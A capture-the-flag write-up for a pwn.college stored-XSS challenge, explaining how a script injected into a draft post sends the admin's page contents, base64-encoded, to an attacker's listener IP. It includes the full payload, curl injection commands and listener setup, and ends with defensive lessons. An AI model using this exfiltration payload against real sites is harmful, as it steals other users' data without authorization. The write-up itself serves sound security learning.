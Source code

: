 ## 🛡️ Writeup: XSS Challenge – Stealing Admin Draft Using Stored XSS

### 📘 Challenge Summary

We were given a web app named **pwnpost** that allows users to post drafts with an optional publish checkbox. The key challenge is to **steal a flag stored in a draft post created by the `admin` user**. The admin periodically logs in to view drafts, and the flag is only accessible in their session.

---

## 🕳️ Vulnerabilities Identified

### 1. **Stored XSS (Cross-Site Scripting)**

* The draft submission form accepts **unescaped HTML/JavaScript**.
* When the draft is viewed by another user (e.g. admin), the script is executed.
* This opens the door for persistent XSS, where the attacker can inject malicious JavaScript.

### 2. **No Output Encoding / Sanitization**

* The server does **not sanitize or encode the user input** in draft content before rendering it in HTML.
* This leads to JavaScript being executed directly when the admin loads the draft.

---

## 🚩 Goal

**Exfiltrate the draft contents (flag) visible only to the admin**.

---

## 🛠️ Steps to Solve

### ✅ Step 1: Create a malicious payload that will:

* Fetch the homepage (which contains the draft with the flag when viewed by admin).
* Base64 encode the HTML.
* Send it to our listener server (e.g., running with Python or `nc`).

**Payload:**

```html
<script>
fetch("/") 
  .then(res => res.text()) 
  .then(text => { 
    fetch("http://<your-IP>:8000/?flag=" + btoa(text)); 
  });
</script>
```

Replace `<your-IP>` with your real IP (use `ip a` or `curl ifconfig.me`).

---

### ✅ Step 2: Host a listener server to receive the flag

```bash
# Simple listener in Python
python3 -m http.server 8000
```

Or if you want to view requests:

```bash
sudo tcpdump -i any port 8000
```

---

### ✅ Step 3: Inject Payload Using `curl`

Here's how to submit the malicious draft from terminal using `curl`:

```bash
curl -X POST http://<TARGET>/draft \
  -d 'content=<script>fetch("/") .then(res => res.text()) .then(text => { fetch("http://10.49.150.47:8000/?flag=" + btoa(text)); });</script>' \
  -d 'publish=on' \
  -b 'session=<your-session-if-needed>' \
  -v
```

> Replace `<TARGET>` with the vulnerable server (e.g., `127.0.0.1:5000` or as assigned), and `10.49.150.47` with your attacker server IP.

If authentication is needed, perform login first using curl and store cookies:

```bash
# Step 1: Log in and store cookies
curl -c cookies.txt -X POST http://<TARGET>/login -d 'username=hacker&password=hacker'

# Step 2: Inject using stored cookies
curl -b cookies.txt -X POST http://<TARGET>/draft \
  -d 'content=<script>fetch("/") .then(res => res.text()) .then(text => { fetch("http://10.49.150.47:8000/?flag=" + btoa(text)); });</script>' \
  -d 'publish=on'
```

---

### ✅ Step 4: Wait for the Admin

Once the payload is submitted, the admin (simulated bot) will log in, view drafts, and execute the payload. You’ll receive the flag at:

```
http://10.49.150.47:8000/?flag=...
```

Use `base64 -d` to decode the flag if necessary.

---

## ✅ Final Result

From the decoded HTML, the following line shows the flag:

```html
pwn.college{...}
```

---

## 🔐 Lessons Learned

* **Always sanitize user input**, especially in blog/draft/comment systems.
* **Content Security Policy (CSP)** can help prevent loading external scripts.
* **HttpOnly** cookies can prevent JS from accessing session tokens, but XSS can still steal data rendered on the page.
* Even seemingly harmless features like drafts can be abused to run malicious code if not sanitized.
